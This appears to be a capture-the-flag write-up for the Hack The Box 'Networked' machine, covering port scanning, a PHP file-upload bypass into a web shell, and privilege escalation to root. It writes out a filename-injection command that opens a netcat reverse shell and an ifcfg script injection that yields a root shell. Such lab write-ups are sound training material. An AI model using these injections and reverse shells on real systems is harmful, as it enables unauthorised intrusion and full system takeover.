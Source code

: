 # Networked - Linux (Easy)

## Summary
Networked had a relatively challenging user foothold aspect, requiring me to abuse an Apache misconfiguration allowing for file upload bypassing. After getting the first reverse shell as `www-data`, I exploited command injection in a script and then used an `ifcg` script to fully escalate my privileges as root. 

## Enumeration

I started Enumeration by running Rustscan on the the target.

```
rustscan -a $machine_IP -- -A -sV -sC -T4 -vv

-sC - Script Scan
-sV - Version Scan
-T4 - Timing Template
-A  - Aggresive Scan Options
-vv - Verbosity level

rustscan -a $machine_IP -- -A -sV -sC -T5 -v
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open $machine_IP:22
Open $machine_IP:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)

80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
```

## Port 80 - HTTP

The HTTP Landing Page indicates a regular message but running Gobuster on the target reveals the presence of a `backup` and `uploads` directory

![gobuster](Images/gobuster.png)

![backup](Images/backup.png)

```
tar -xvf backup.tar

index.php
lib.php
photos.php
upload.php
```

## Source Code Review

`upload.php` ensures that appropriate steps are being followed to ensure that an uploaded file is saved properly. There is a required condition that the `check_file_type($_FILES["myFile"])` is set to True and the file size is less than 60 KiB. A MIME type typically comes from checking the MIME database for file signatures. So something that starts with `MZ` is a Windows exe (or DLL). Linux executables start with `\x7fELF`. [Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures) has a great page detailing this. So, as long as I send a small file that looks like an image to start, it will be saved as `machine_IP.$ext`, where `$ext` is anything after the first `.` in the original file name.

`upload.php` has a file upload functionality. Once a legitimate file is uploaded, `photos.php` shows the uploaded file and this can be potentially exploited to get a reverse shell. 

![upload-fail](Images/upload-error.png)

![upload-success](Images/upload-success.png)

```
http://machine_IP/uploads/machine_IP.php.jpeg?cmd=id
```

I can explore this further to get a bash reverse shell which is base64 encoded as it doesn't accept spaces and pick this up further.

![id](Images/uid.png)

## Privilege Escalation

I initially get a basic shell as the `www-data` user. `crontab.guly` shows a configuration file that runs `php /home/guly/check_attack.php` every 3 minutes where `check_attack.php` is a script that processes files in `upload`

![crontab1](Images/crontab1.png)

![crontab2](Images/crontab2.png)

However, I am able to skip modifying the source code to get a reverse connection by creating a new file that follows the `;` separator

```
touch '; nc $machine_IP 4444 -c bash'
```

Once this was inserted, I only had to wait for a couple of minutes before picking up the netcat reverse shell

![revshell](Images/revshell.png)

I was able to grab the `user.txt` flag and run `sudo -l` to identify what the current user can run as root and exploit this to escalate privileges.

![root](Images/root.png)

```
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
test bash
interface PROXY_METHOD:
test

interface BROWSER_ONLY:
test
interface BOOTPROTO:
test
[root@networked network-scripts]# whoami
root
[root@networked network-scripts]# id
uid=0(root) gid=0(root) groups=0(root)
```

![cert](Images/cert.png)